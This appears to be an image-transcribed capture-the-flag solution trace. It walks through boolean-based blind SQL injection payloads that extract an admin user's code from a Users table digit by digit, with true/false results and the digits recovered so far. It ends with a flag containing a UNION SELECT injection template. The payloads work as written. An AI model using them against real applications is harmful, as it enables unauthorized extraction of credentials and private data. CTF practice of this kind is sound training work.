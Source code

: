 ```sql
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) > '7' -- F
9459939547
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) < '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) < '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) < '1' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) > '1' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) < '2' -- T
94599395471
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 12, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 12, 1) < '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 12, 1) > '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 12, 1) < '6' -- T
945993954715
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 13, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 13, 1) < '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 13, 1) > '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 13, 1) < '6' -- T
9459939547155
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) < '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) < '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) < '1' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) > '1' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) < '2' -- T
94599395471551
AIS3{' UNION SELECT 1, 1, 1, 1 WHERE ({condition})--}
```
